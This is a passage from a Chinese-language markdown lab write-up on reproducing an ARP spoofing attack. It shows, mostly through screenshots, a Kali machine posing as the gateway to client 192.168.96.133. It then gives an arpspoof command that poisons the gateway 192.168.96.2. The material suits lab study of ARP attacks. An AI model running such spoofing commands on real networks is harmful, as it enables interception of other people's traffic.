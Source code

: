 #### 欺骗客户机96.133

![img](arp%E6%94%BB%E5%87%BB%E5%A4%8D%E7%8E%B0.assets/1650465392437-3e8a453b-1f18-4fd3-b15e-12270f11dd5f.png)

查看客户机96.133:

![image-20221013224901803](arp%E6%94%BB%E5%87%BB%E5%A4%8D%E7%8E%B0.assets/image-20221013224901803.png)

看一下arp缓存：

![image-20221013224948161](arp%E6%94%BB%E5%87%BB%E5%A4%8D%E7%8E%B0.assets/image-20221013224948161.png)

kali的ip成为了网关

#### 欺骗网关

新开一个窗口：

```
arpspoof -i eth0 -t 192.168.96.2 192.168.96.133 #欺骗网关96.2
```
